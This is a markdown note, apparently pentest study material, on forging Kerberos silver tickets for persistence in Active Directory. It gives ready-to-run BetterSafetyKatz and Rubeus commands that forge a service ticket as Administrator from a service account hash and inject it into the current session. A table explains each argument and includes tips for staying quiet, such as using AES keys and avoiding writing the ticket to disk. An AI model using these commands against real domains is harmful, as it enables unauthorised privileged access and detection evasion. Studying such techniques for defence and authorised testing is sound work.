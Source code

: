```yaml
---
tags:
  - persistence
aliases:
  - AP-REQ
  - Kerberos
cssclasses:
  - MimiKatz
  - Rubeus
  - LDAP
---
```

- A valid TGS
- This deals with abusing AP-REQ
- Encrypted and signed by the hash of the **service** account. 
- Services rarely check PAC (Privileged Attribute Certificate)
- Services will allow access only to the services themselves.
- Reasonable persistence period (default 30 days for computer accounts)

```batch title:"Using hash of the DC computer account, below command provides access to file system on the DC"
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /user:Administrator /domain:domain.name /sid:S-1-XXXXX /target:domain-controller-fqdn /service:service_name /rc4:<ntlm_hash> /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"
```

| Arguments                      | Description                                                                                                      |
| ------------------------------ | ---------------------------------------------------------------------------------------------------------------- |
| kerberos::golden               | Name of the module (there is no Silver module)                                                                   |
| /user:Administrator            | Username for which the TGT is generated                                                                          |
| /domain:fqdn                   | Domain FQDN                                                                                                      |
| /sid:S-1-XXXXX                 | SID of the domain                                                                                                |
| /target:domain-controller-fqdn | Target server FQDN                                                                                               |
| /service:service_name          | The SPN of the service for which the TGS is to be created                                                        |
| /aes256:aes256_key             | AES256 keys of the service account. Using AES keys makes the attack more silent                                  |
| /id:500 /groups:512            | Optional User RID (default 500) and Group (default 513 512 520 518 519)                                          |
| /ptt                           | Injects the ticket in current process - no need to save the ticket on disk                                       |
| /startoffset:0                 | Optional when the ticket is available (default 0 - right now) in minutes                                         |
| /endin:600                     | Optional ticket liifetime (default 10 years) in minutes. The default AD setting is 10 hours = 600 minutes        |
| /renewmax:10080                | Optional ticket lifetime with renewal (default is 10 years) in minutes. the default AD setting is 7 days = 10080 |

```batch title:"Forge a silver ticket"
C:\AD\Tools\Rubeus.exe silver /service:service_name/domain-controller /rc4:<ntlm_hash> /sid:S-1-XXXXX /ldap /user:Administrator /domain:domain.name /ptt
```

`/ldap` queries DC for information related to the user.


